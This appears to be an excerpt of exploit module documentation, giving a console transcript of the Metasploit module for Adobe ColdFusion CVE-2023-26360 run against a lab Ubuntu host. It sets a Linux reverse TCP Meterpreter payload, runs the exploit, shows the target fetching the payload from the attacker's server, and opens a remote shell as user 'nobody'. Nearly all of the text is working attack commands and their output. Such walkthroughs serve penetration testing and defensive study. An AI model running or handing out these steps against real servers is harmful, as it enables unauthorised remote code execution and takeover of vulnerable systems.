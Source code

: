 ### Linux Dropper (Adobe ColdFusion 2021 Update 5 on Ubuntu 22.04)
```
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set target 4
target => 4
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > set RHOST 172.23.0.98
RHOST => 172.23.0.98
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > check
[*] 172.23.0.98:8500 - The service is running, but could not be validated. ColdFusion detected but version number is unknown.
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > exploit

[*] Started reverse TCP handler on 172.23.9.70:4444 
[*] Using URL: http://172.23.9.70:8080/lzD4G6tt1
[*] Client 172.23.0.98 (curl/7.81.0) requested /lzD4G6tt1
[*] Sending payload to 172.23.0.98 (curl/7.81.0)
[*] Sending stage (3045348 bytes) to 172.23.0.98
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Meterpreter session 2 opened (172.23.9.70:4444 -> 172.23.0.98:43168) at 2023-04-06 12:29:23 +0100
[*] Server stopped.

meterpreter > getuid
Server username: nobody
meterpreter > pwd
/opt/ColdFusion2021/cfusion/bin
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.23.0.98 - Meterpreter session 2 closed.  Reason: User exit
msf exploit(multi/http/adobe_coldfusion_rce_cve_2023_26360) > 
```
